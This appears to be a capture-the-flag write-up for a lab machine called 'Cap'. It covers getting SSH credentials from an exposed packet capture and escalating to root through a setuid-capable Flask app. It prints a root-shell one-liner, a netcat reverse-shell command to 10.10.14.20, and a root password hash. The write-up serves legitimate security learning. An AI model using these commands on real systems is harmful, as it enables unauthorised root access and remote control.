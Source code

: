 # Summary
- Takeaways:
	- when dealing with numbered items, always try 0
	- fuzz all directories, adding specific status codes to the `gobuster` blacklist if needed
- User: website serves a .pcap file that contains a username and password that can be used to SSH in
- Root: user has ability to use `setuid` and can impersonate `root`
 
# Details
### User
- port scan reveals ports 21, 22 and 80 open
- port 80 hosts a website that allows you to view the output of the `ifconfig` and `netstat` commands on the remote server
- additionally allows you to capture packets for five seconds and then download the .pcap file
- first .pcap file is served from `http://cap.htb/data/1`
- checking for the existence of `http://cap.htb/data/0` reveals a previous packet capture that includes a username and password that can be used to log in with SSH

### Root
- inspecting the files in `/var/www/html` reveals a Flask app that uses `os.setuid(0)` within the `/capture` endpoint handler
- this server is ran as the current user (`nathan`), indicating it's possible to use `setuid` to impersonate `root`
- possible to open a root shell with `python3 -c ‘import os; os setuid(0); os.system(“/bin/bash”);’`
- also possible to open a reverse shell in a Python REPL with `import os; os.setuid(0); os.system("mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.20 9999 > /tmp/f"` opens a reverse shell as `root`

#### root password hash: ` $6$8vQCitG5q4/cAsI0$Ey/2luHcqUjzLfwBWtArUls9.IlVMjqudyWNOUFUGDgbs9T0RqxH6PYGu/ya6yG0MNfeklSnBLlOskd98Mqdm0`
